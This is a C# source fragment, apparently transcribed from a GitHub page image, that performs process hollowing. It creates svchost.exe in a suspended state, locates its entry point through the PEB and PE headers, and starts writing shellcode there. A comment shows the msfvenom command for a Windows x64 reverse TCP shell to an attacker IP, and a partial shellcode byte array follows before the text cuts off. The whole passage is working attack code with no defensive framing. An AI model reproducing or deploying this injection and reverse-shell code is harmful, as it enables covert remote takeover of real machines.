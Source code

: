 ```csharp

        // 1 -- Create the target process in a suspended state

        STARTUPINFO si = new STARTUPINFO();
        PROCESS_INFORMATION pi;
        SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();

        bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", ref sa, ref sa, false, 0x4, IntPtr.Zero, null, ref si, out pi);


            // 2 -- Get the address of the Process Environment Block

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
        uint tmp = 0;
        IntPtr hProcess = pi.hProcess;
        ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size* 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);



            // 3 -- Extract the Image Base Address from the PEB

        byte[] addrBuf = new byte[IntPtr.Size];
        IntPtr nRead = IntPtr.Zero;
        ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

        IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));


            // 4 -- Read the PE structure to find the EntryPoint address

        byte[] data = new byte[0x200];
        ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

        uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
        uint opthdr = e_lfanew_offset + 0x28;
        uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
        IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

        IntPtr entryPoint = IntPtr.Zero;


            // 5 -- Write shellcode at EntryPoint

            // msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.100.85 -f csharp -v shellcode (ENCODED)
            byte[] buf = new byte[734] {0xfc,0x48,0x83,0xe4,0xf0,
                                            0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,
                                            0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,
                                            0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,
                                            0x0f,0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
                                            0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,
                                            0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,
                                            0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,
```